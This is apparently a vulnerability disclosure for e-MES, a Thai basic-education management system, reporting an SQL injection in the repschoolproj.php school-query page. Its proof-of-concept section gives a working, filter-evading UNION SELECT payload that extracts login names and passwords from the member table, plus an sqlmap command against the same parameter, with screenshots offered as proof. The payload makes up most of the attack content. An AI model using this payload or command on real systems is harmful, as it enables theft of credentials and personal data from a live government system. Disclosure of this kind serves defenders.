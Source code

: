`Describe：`
E-mes is an education management system of Thailand's basic education department. It has a serious SQL injection vulnerability, through which many sensitive information in the database can be obtained. This affects the whole e-mes version. As this is a system of the Thai government department, it can't be found on GitHub for the time being,I found a usage document in the government affairs section.

`Official documents`
>https://www.br2.go.th/attachments/article/2902/%E0%B9%81%E0%B8%9A%E0%B8%9A%E0%B8%A3%E0%B8%B2%E0%B8%A2%E0%B8%87%E0%B8%B2%E0%B8%99%E0%B8%82%E0%B9%89%E0%B8%AD%E0%B8%A1%E0%B8%B9%E0%B8%A5%E0%B9%83%E0%B8%99%E0%B8%A3%E0%B8%B0%E0%B8%9A%E0%B8%9A%20e-MES.pdf

`Attack Vectors`
> A SQL injection vulnerability exists in the school information query interface (repschoolproj.php) of the EMS system of the Office of the Thai Basic Education Commission, which can lead to important data leakage.This website is owned by the Thai government, and if it is not repaired in time, it may lead to information leakage.

`POC:` 
> http://localhost/eme/repschoolproj.php?claster=school&idarea=648 repschoolproj.php?claster=school&idarea=648  /**/uNiOn select/**/ 1,1,user,1,1,1,1,1,2,3,4,5,6,7,1,1,9,10,passwd,12,13,1,1,1,1,user(),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from member#  
> This exp can get the login account and password of the e-mes system  
`photo proof`
![图片](https://user-images.githubusercontent.com/110643835/188271982-779a174a-41e3-47dd-b9eb-3ed62e59b4bb.png)
![图片](https://user-images.githubusercontent.com/110643835/188272051-c3890348-ee21-472e-b10e-2519c4ffd64a.png)


Or use sqlmap for injection
> POC: sqlmap.py -u "http://localhost/eme/repschoolproj.php?claster=school&idarea=648*"

